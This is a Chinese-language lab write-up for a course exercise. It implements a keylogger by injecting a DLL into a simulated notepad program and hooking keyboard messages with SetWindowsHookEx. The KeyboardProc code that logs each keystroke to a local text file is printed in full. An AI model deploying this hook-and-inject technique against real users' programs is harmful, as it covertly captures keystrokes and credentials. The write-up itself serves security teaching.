

# 第一题——键盘精灵

**目标：**实现针对模拟记事本程序的按键信息记录


## 实现

包含两个代码，一个是dll的一个是inject的

inject:

```cpp
/** 
 * compile: gcc inject.c -m32 -o inject
 * Usage: injector.exe
 * 
 * Inject dllmain.dll to KeyLogText.exe. 
 */
```

dllmain:

```cpp
/**
 * compile: gcc dllmain.c -o dllmain.dll
 */
```

为了方便，使用了相对路径，将dllmain.dll和inject.exe放在了同一个文件夹，将程序的按键信息记录到C:\\Documents and Settings\\Administrator\\show.txt文件中。

**运行步骤：**
首先，运行键盘精灵程序，然后运行inject.exe，再在指示的输入框内输入测试，最后打开show.txt可以看到记录的按键信息。

主要讲一下重要的两个函数SetWindowsHookEx和KeyboardProc。

设置钩子函数SetWindowsHookEx拦截消息,监听KeyLogText.exe进程

```
    hook = SetWindowsHookEx(
    WH_KEYBOARD, // 监听类型【键盘消息】
    (HOOKPROC)KeyboardProc, // 处理函数
    hdll, // dll的句柄
    getThreadID(getPID("KeyLogText.exe")) // 监听线程ID
    );
```

键盘钩子处理过程：当按键为特殊字符时，用函数GetKeyNameText获取虚拟键的名字，例如，当按下“shift”时，其显示为“< shift >”；字母数字都正常输出。

```
LRESULT CALLBACK KeyboardProc(int nCode,WPARAM wParam,LPARAM lParam)
{
    //将输入的记录到log。。。。。。。。。

    if(nCode >= 0){
        if(!(lParam & 0x80000000)){
            fp = fopen("C:\\Documents and Settings\\Administrator\\show.txt","a+");
            if(fp != NULL){
                char str[20] = {0};
                int len = GetKeyNameText(lParam, str, 20);
                if(len > 1)
                    fprintf(fp, "<%s>", str );
                else
                    fprintf(fp, "%s", str );
                fclose(fp); 
            }else printf("error open file!\n");
        }
    }
    return CallNextHookEx( hook, nCode, wParam, lParam );  
   
}
```

另外，在unhook之前设定了定时，时间到了之后将不再处理。

```
    for (i = 0; i < 30; i++)
    {
        Sleep(2000);
    }
```


## 效果

